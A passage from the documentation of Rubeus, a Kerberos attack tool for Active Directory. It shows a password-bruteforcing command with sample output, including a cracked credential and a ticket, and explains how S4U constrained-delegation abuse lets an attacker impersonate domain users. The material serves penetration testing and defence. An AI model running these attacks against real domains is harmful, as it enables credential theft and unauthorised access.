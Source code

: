The **brute** action will perform a Kerberos-based password bruteforcing attack.

    C:\Rubeus>Rubeus.exe brute /password:Password123!! /noticket

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.5.0

    [-] Blocked/Disabled user => Guest
    [-] Blocked/Disabled user => DefaultAccount
    [-] Blocked/Disabled user => krbtgt
    [-] Blocked/Disabled user => disabled
    [+] STUPENDOUS => newuser:Password123!!
    [*] base64(newuser.kirbi):

          doIFLDCCBSigAwIBBaEDAgEWooIELDCCBChhggQkMIIEIKADAgEFoRAbDlR...(snip)...


## Constrained delegation abuse

Breakdown of the constrained delegation commands:

| Command     | Description |
| ----------- | ----------- |
| [s4u](#s4u) | Perform S4U2self and S4U2proxy actions |


### s4u

The **s4u** action is nearly identical to [Kekeo](https://github.com/gentilkiwi/kekeo/)'s **tgs::s4u** functionality. If a user (or computer) account is configured for constrained delegation (i.e. has a SPN value in its msds-allowedtodelegateto field) this action can be used to abuse access to the target SPN/server. Constrained delegation is complex. For more information see [this post](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) or Elad Shamir's ["Wagging the Dog"](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html) post.

A **TL;DR** explanation is that an account with constrained delegation enabled is allowed to request tickets _to itself_ as any user, in a process known as S4U2self. In order for an account to be allowed to do this, it has to have **TrustedToAuthForDelegation** enabled in it's useraccountcontrol property, something that only elevated users can modify by default. This ticket has the **FORWARDABLE** flag set by default. The service can then use this specially requested ticket to request a service ticket to any service principal name (SPN) specified in the account's **msds-allowedtodelegateto** field. So long story short, if you have control of an account with **TrustedToAuthForDelegation** set and a value in **msds-allowedtodelegateto**, you can pretend to be any user in the domain to the SPNs set in the account's **msds-allowedtodelegateto** field.

This "control" can be the hash of the account (`/rc4` or `/aes256`), or an existing TGT (`/ticket:X`) for the account with a **msds-allowedtodelegateto** value set. If a `/user` and rc4/aes256 hash is supplied, the **s4u** module performs an [asktgt](#asktgt) action first, using the returned ticket for the steps following. If a TGT `/ticket:X` is supplied, that TGT is used instead.
